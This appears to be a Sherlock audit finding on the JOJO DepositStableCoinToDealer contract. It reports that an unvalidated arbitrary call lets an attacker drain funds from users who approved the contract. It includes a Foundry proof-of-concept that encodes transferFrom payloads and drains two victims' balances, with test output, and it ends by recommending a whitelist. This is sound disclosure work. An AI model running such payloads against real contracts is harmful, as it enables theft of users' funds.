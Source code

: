 jprod15

medium

# Malicious users could steal funds from other users due to a lack of input data validation

## Summary
Due to a lack of input data validation, malicious users can steal funds from other users who has approved the contract. 
## Vulnerability Detail
https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/stableCoin/DepositStableCoinToDealer.sol#L30

To call this function, users need to give their prior approval to the contracts. Due to the lack of input data validation of swapTarget, (bool success, ) = swapTarget.call(data); a malicious user can perform a frontrunning attack and steal funds.
 
https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/stableCoin/DepositStableCoinToDealer.sol#L36
can run this test using foundry

      function test_steal_funds() public {

            console.log("balance before alice   :%d",primaryAsset.balanceOf(alice));
            console.log("balance before bob     :%d",primaryAsset.balanceOf(bob));
            console.log("balance before attacker:%d",primaryAsset.balanceOf(attacker));

            vm.prank(alice);
            primaryAsset.approve(address(depositStable),type(uint256).max);

            vm.prank(bob);
            primaryAsset.approve(address(depositStable),type(uint256).max);

            

            bytes memory params =
            abi.encode(
                address(attacker),
                address(primaryAsset),
                abi.encodeWithSignature("transferFrom(address,address,uint256)",bob,attacker,primaryAsset.balanceOf(bob))
                );

            bytes memory params1 =
            abi.encode(
                address(attacker),
                address(primaryAsset),
                abi.encodeWithSignature("transferFrom(address,address,uint256)",alice,attacker,primaryAsset.balanceOf(alice))
                );

            vm.startPrank(attacker);
            depositStable.depositStableCoin(address(primaryAsset),0,attacker,params,0);
            depositStable.depositStableCoin(address(primaryAsset),0,attacker,params1,0);
            vm.stopPrank();

            console.log("  ");    
            console.log("balance after bob      :%d",primaryAsset.balanceOf(bob));
            console.log("balance after alice    :%d",primaryAsset.balanceOf(alice));
            console.log("balance after attacker :%d",primaryAsset.balanceOf(attacker));


        }

the result 

        Running 1 test for test/tradeTest.t.sol:ContractTest
        [PASS] test_steal_funds() (gas: 190334)
        Logs:
        balance before alice   :1000000000000000000000000000
        balance before bob     :1000000000000000000000000000
        balance before attacker:0

        balance after bob      :0
        balance after alice    :0
        balance after attacker :2000000000000000000000000000

        Test result: ok. 1 passed; 0 failed; finished in 11.82ms
## Impact
users can loss funds 
## Code Snippet
https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/stableCoin/DepositStableCoinToDealer.sol#L30

https://github.com/sherlock-audit/2023-04-jojo/blob/main/smart-contract-EVM/contracts/stableCoin/DepositStableCoinToDealer.sol#L36

## Tool used

Manual Review

## Recommendation
add a whitelist of addresses
